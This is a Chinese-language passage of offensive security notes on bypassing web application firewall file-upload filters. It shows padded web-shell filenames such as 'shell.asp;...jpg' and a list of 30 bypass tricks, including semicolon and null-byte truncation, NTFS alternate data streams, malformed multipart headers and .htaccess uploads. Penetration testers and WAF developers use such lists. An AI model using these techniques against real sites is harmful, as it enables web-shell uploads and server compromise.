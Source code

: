 基于构造长文件名:
如果web程序会将filename除le 扩展名的那段重命名的话，那么还可以构造更多的点、符号绕过重命名.

```
filname="shell.............................................................................................................................................................................................................................................................asp"
```
特殊的长文件名：
文件名使用非字母数字，比如中文等最大程度的拉长，不行的话再结合一下其他的特性测试：

```
shell.asp;王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王.jpg

```

## wafbypass_upload一些总结绕过

在这里放上个人之前总结的30个上传绕过姿势：

```
1. filename在content-type下面
2. .asp{80-90}
3. NTFS ADS
4. .asp...
5. boundary不一致
6. iis6分号截断asp.asp;asp.jpg
7. apache解析漏洞php.php.ddd
8. boundary和content-disposition中间插入换行
9. hello.php:a.jpg然后hello.<<<
10. filename=php.php
11. filename="a.txt";filename="a.php"
12. name=\n"file";filename="a.php"
13. content-disposition:\n
14. .htaccess文件
15. a.jpg.\nphp
16. 去掉content-disposition的form-data字段
17. php<5.3 单双引号截断特性
18. 删掉content-disposition: form-data;
19. content-disposition\00:
20. {char}+content-disposition
21. head头的content-type: tab
22. head头的content-type: multipart/form-DATA
23. filename后缀改为大写
24. head头的Content-Type: multipart/form-data;\n
25. .asp空格
26. .asp0x00.jpg截断
27. 双boundary
28. file\nname="php.php"
29. head头content-type空格:
30. form-data字段与name字段交换位置
```